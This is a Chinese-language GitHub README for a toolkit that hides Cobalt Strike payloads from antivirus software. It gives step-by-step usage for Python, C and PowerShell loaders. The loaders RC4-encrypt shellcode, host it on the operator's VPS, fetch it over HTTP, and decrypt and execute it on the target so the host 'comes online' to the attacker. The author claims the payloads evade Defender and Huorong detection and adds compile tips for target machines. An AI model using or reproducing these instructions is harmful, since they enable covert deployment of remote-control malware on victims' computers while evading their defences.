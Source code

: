# CS-Avoid-killing
CS免杀,包括python版和C版本的(经测试Python打包的方式在win10上存在bug,无法运行,Win7测试无异常

V1.0: 目前测试可以过Defender/火绒的静杀+动杀,360还没测= =不想装360全家桶了,可以自行测试

下一步开发计划:

V1.5: 加入C版本CS免杀

V1.7:加入Powershell的免杀

V2.0: 开发出UI界面

V3.0: 想办法结合更多免杀技术(想去研究下进程注入/文件捆绑,不知道免杀效果怎样)

## 依赖环境

python: 

- python2
- pyinstaller
- requests

C: VS2019默认就够了

Powershell: Win10上测试没有问题,也就是ps5.1,更低版本未测试

## 安装

`git clone https://github.com/Gality369/CS-Avoid-killing.git`

## 使用

1. 先通过CS生成C格式的shellcode:` Attacks -> packages -> Payload Generator `选择一个listener然后生成一个C的shellcode(其实就是二进制代码)

2. Python版:

   > 1. 将生成的shellcode填入generator.py的shellcode变量中,填入一个Key,用于后续的RC4加密
   > 2. 运行generator.py,生成的payload自动保存在payload.txt中.
   > 3. 将payload.txt上传到你的VPS中,后续生成的加载器会从VPS中获取加密shellcode并在本地解密后执行
   > 4. 将在VPS上的payload路径填入PyLoader.py的url变量中,填入你刚刚设置的Key
   > 5. 用`python pyinstaller.py -F -w PyLoader.py`打包文件,可执行文件在pyshellcode文件夹下的dist中,双击运行可以看到主机上线

3. C版本:

   > 1. 按要求填入你自己的Key,shellcdoe长度和shellcode,执行
   > 2. 将第一行的数字复制进Loader的Base64ShellLen字段中,将第二行生成的加密shellcode保存在payload.txt文件中并将其放在服务器上(如果不叫这名或者不在跟路径,需要自己改`char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";`中的路径)
   > 3. 在Loader中填入自己的Key和VPS的IP,编译
   > 4. 执行编译出的exe,CS上线
   
4. Powershell版本:

   > 1. 在CS中生成Powershell版本的payload.ps1
   > 2. Python3 PSconfusion.py payload.ps1 AVpayload.ps1
   > 3. 经测试能过目前所有杀软的静杀,动杀的话,由于CS中有些模块不免杀,所以加载这些模块时可能会触发动杀,这个以后再研究怎么绕过

## 注意

1. pyinstaller安装细节

   > 最后一个支持python2的版本是3.6(最新版pyinstall不再支持python2)
   >
   > 网址:https://github.com/pyinstaller/pyinstaller/releases
   >
   > 需要安装pywin32:https://github.com/mhammond/pywin32

2. 目标是什么环境就在什么环境上打包,否则可能会出现无法上线的情况,不推荐使用py3对项目进行改造,ctypes对py3的支持不太好,会有些莫名其妙的bug

3. 经过测试,C版本在X86Debug模式编译下无任何问题,Release模式下会存在莫名bug,在某些电脑上无法正常上线,请根据需求自行测试

4. 编译选项不要选择动态编译,否则可能会因为目标靶机上缺少相应dll而无法运行.

5. 加载ps脚本的方式这里不做讨论,有师傅已经总结的非常好了,请自行百度
